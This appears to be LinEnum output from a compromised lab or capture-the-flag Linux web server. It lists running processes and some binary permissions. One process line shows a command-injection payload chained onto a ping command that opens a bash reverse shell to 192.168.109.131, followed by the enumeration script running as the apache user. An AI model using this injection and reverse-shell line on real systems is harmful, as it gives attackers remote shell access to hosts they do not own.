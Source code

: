 ```shell
root       483  0.0  0.0     0    0 ?        S<   00:41   0:00 [ata_aux]
root       498  0.0  0.0     0    0 ?        S    00:41   0:00 [kjournald]
root      1703  0.0  0.3  3340  436 ?        S<s  00:41   0:00 udevd
root      1741  0.0  0.0     0    0 ?        S    00:41   0:00 [shpchpd_event]
root      1820  0.0  0.0     0    0 ?        S<   00:41   0:00 [kauditd]
root      1931  0.0  0.0     0    0 ?        S    00:41   0:00 [kjournald]
root      2398  0.0  0.4  2284  540 ?        Ss   00:42   0:00 syslogd -m 0
root      2402  0.0  0.3  1964  388 ?        Ss   00:42   0:00 klogd -x
rpc       2541  0.0  0.4  2168  596 ?        Ss   00:42   0:00 portmap
rpcuser   2560  0.0  0.6  3232  824 ?        Ss   00:42   0:00 rpc.statd
root      2586  0.0  0.2  5216  368 ?        Ss   00:42   0:00 rpc.idmapd
root      2658  0.0  0.3  1956  440 ?        Ss   00:42   0:00 /usr/sbin/acpid
root      2719  0.0  0.9  4944 1140 ?        Ss   00:42   0:00 /usr/sbin/sshd
root      2755  0.0  0.6  2752  768 ?        Ss   00:42   0:00 xinetd -stayalive -pidfile /var/run/xinetd.pid
root      2773  0.0  1.4  9124 1860 ?        Ss   00:42   0:00 sendmail: accepting connections
smmsp     2783  0.0  1.2  7432 1636 ?        Ss   00:42   0:00 sendmail: Queue runner@01:00:00 for /var/spool/clientmqueue
root      2794  0.0  0.2  2372  352 ?        Ss   00:42   0:00 gpm -m /dev/input/mice -t imps2
root      2803  0.0  0.7  4740  940 ?        Ss   00:42   0:00 crond
xfs       2824  0.0  1.0  4000 1296 ?        Ss   00:42   0:00 xfs -droppriv -daemon
root      2841  0.0  0.3  2704  428 ?        Ss   00:42   0:00 /usr/sbin/atd
dbus      2850  0.0  0.6  3052  800 ?        Ss   00:42   0:00 dbus-daemon-1 --system
root      2859  0.0  4.5  9132 5760 ?        Ss   00:42   0:00 hald
root      3115  0.0  0.5  2228  680 ?        Ss   00:42   0:00 dhclient
root      3117  0.0  8.1 22180 10268 ?       Ss   00:42   0:00 httpd
root      3143  0.0  0.9  4988 1236 ?        S    00:42   0:00 /bin/sh /usr/bin/mysqld_safe --datadir=/var/lib/mysql --socket=/var/lib/mysql/mysql.sock --err-log=/var/log/mysqld.log --pid-file=/var/run/mysqld/mysqld.pid
mysql     3188  0.0 14.8 125796 18756 ?      Sl   00:42   0:00 /usr/libexec/mysqld --basedir=/usr --datadir=/var/lib/mysql --user=mysql --pid-file=/var/run/mysqld/mysqld.pid --skip-external-locking --socket=/var/lib/mysql/mysql.sock
root      3214  0.0  0.3  2404  388 tty1     Ss+  00:42   0:00 /sbin/mingetty tty1
root      3215  0.0  0.3  2292  388 tty2     Ss+  00:42   0:00 /sbin/mingetty tty2
root      3216  0.0  0.3  2004  388 tty3     Ss+  00:42   0:00 /sbin/mingetty tty3
root      3217  0.0  0.3  2316  388 tty4     Ss+  00:42   0:00 /sbin/mingetty tty4
root      3218  0.0  0.3  2548  384 tty5     Ss+  00:42   0:00 /sbin/mingetty tty5
root      3219  0.0  0.3  3372  388 tty6     Ss+  00:42   0:00 /sbin/mingetty tty6
root      4335  0.0  1.7  9120 2260 ?        SNs  01:47   0:00 cupsd
apache    4377  0.0  5.6 22328 7168 ?        S    01:47   0:00 httpd
apache    4378  0.0  5.7 22392 7200 ?        S    01:47   0:00 httpd
apache    4379  0.0  5.6 22328 7140 ?        S    01:47   0:00 httpd
apache    4380  0.0  5.6 22312 7144 ?        S    01:47   0:00 httpd
apache    4381  0.0  5.7 22408 7180 ?        S    01:47   0:00 httpd
apache    4382  0.0  5.6 22312 7152 ?        S    01:47   0:00 httpd
apache    4383  0.0  5.6 22316 7132 ?        S    01:47   0:00 httpd
apache    4384  0.0  5.6 22420 7156 ?        S    01:47   0:00 httpd
apache    9877  0.0  0.8  4968 1124 ?        S    03:16   0:00 sh -c ping -c 3 127.0.0.1; bash -i >& /dev/tcp/192.168.109.131/7702 0>&1
apache    9879  0.0  1.0  5828 1288 ?        S    03:16   0:00 bash -i
apache   10252  0.0  1.1  4968 1416 ?        S    03:32   0:00 /bin/bash ./LinEnum.sh
apache   10253  0.0  0.6  4996  860 ?        R    03:32   0:00 /bin/bash ./LinEnum.sh
apache   10255  0.0  0.3  4448  452 ?        S    03:32   0:00 tee -a
apache   10452  0.0  0.6  4996  804 ?        S    03:32   0:00 /bin/bash ./LinEnum.sh
apache   10453  0.0  0.6  2488  792 ?        R    03:32   0:00 ps aux


[-] Process binaries and associated permissions (from above list):
-rwxr-xr-x  1 root root  616248 Aug 13  2006 /bin/bash
lrwxrwxrwx  1 root root       4 Oct  7  2009 /bin/sh -> bash
-rwxr-xr-x  1 root root   12772 Feb 21  2005 /sbin/mingetty
-rwxr-xr-x  1 root root 6036288 Jul 25  2008 /usr/libexec/mysqld
-rwxr-x---  1 root root   22540 Feb 21  2005 /usr/sbin/acpid
```